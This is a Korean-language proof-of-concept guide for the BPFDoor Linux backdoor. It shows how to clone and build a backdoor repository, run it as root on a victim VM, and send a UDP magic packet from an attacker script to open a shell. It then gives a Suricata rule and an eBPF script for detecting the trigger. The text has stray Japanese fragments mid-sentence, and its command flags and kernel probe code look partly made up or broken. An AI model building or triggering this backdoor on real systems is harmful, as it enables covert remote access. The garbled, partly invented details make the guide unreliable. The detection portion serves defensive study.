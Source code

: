 아래는 malwaredevil/BPFDoor-Backdoor 리포지토리를 이용한 PoC(Proof-of-Concept) 구성 예시입니다.  
→ **격리된 테스트 VM**(예: VirtualBox/KVM) 또는 Docker 컨테이너에서만 실행하세요!  

---

## 1. 테스트 환경 준비

- **OS**: Ubuntu 22.04 (또는 Rocky Linux 9)
- **필수 패키지**:
  ```bash
  sudo apt-get update
  sudo apt-get install -y build-essential git python3 python3-pip bpfcc-tools
  ```
- **네트워크**: VM은ホストオンリーまたは内部ブリッジで外部アクセスを遮断

---

## 2. 백도어 소스 클론 & 빌드

```bash
git clone https://github.com/malwaredevil/BPFDoor-Backdoor.git
cd BPFDoor-Backdoor
make
# → 결과물: ./bpfdoor
```

---

## 3. 백도어 실행 (Victim)

```bash
# 루트 권한으로 실행
sudo ./bpfdoor \
  --listen-ip 0.0.0.0 \   # 수신할 IP
  --listen-port 9999      # 매직 패킷 포트
```

> 이 상태로 대기하면, 지정한 UDP 포트로 “magic sequence”를 받았을 때 쉘(Back-Connect)을 열きます。

---

## 4. 매직 패킷 송신 (Attacker)

```bash
# send_magic.py
import socket

MAGIC = b'MAGICPING'          # 리포지토리 코드에 맞춰  
TARGET = ("192.168.56.101", 9999)  # Victim IP:Port

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(MAGIC, TARGET)
print("sent magic packet")
```

```bash
python3 send_magic.py
```

→ Victim 쪽에서 `nc` 등으로 쉘이 뜨는지 확인

---

## 5. 탐지 시나리오

### 5.1 Suricata 룰

```yaml
# /etc/suricata/rules/bpfdoor.rules
alert udp any any -> any 9999 \
  (msg:"[PoC] BPFDoor magic packet"; content:"MAGICPING"; sid:9000001; rev:1;)
```

```bash
sudo suricata -c /etc/suricata/suricata.yaml --af-packet any -S /etc/suricata/rules/bpfdoor.rules
```

---

### 5.2 eBPF 실시간 모니터링 (bcc 사용)

```python
# detect_bpfdoor.py
from bcc import BPF

prog = r"""
int kprobe__sys_recvfrom(struct pt_regs *ctx) {
    // buf 포인터는 PT_REGS_PARM2(ctx)
    char buf[8];
    bpf_probe_read(&buf, sizeof(buf), (void *)PT_REGS_PARM2(ctx));
    // "MAGICPIN" 검사 (마지막 G는 다음 바이트)
    if (buf[0]=='M' && buf[1]=='A' && buf[2]=='G' && buf[3]=='I'
     && buf[4]=='C' && buf[5]=='P' && buf[6]=='I' && buf[7]=='N') {
        bpf_trace_printk(">> BPFDoor trigger detected\\n");
    }
    return 0;
}
"""
b = BPF(text=prog)
print("Tracing recvfrom() for magic… Ctrl-C to exit")
b.trace_print()
```

```bash
sudo python3 detect_bpfdoor.py
```

→ magic 패킷을 받을 때마다 `>> BPFDoor trigger detected` 로그 출력

---

## 6. 전체 PoC 흐름

1. **Victim VM** 에 Suricata (또는 eBPF 스크립트)로 모니터링 시작  
2. **Victim VM** 에서 `sudo ./bpfdoor` 실행  
3. **Attacker VM** 에서 `python3 send_magic.py` 실행  
4. Suricata 경고 발생 또는 eBPF 로그 확인 → 공격 탐지  

---
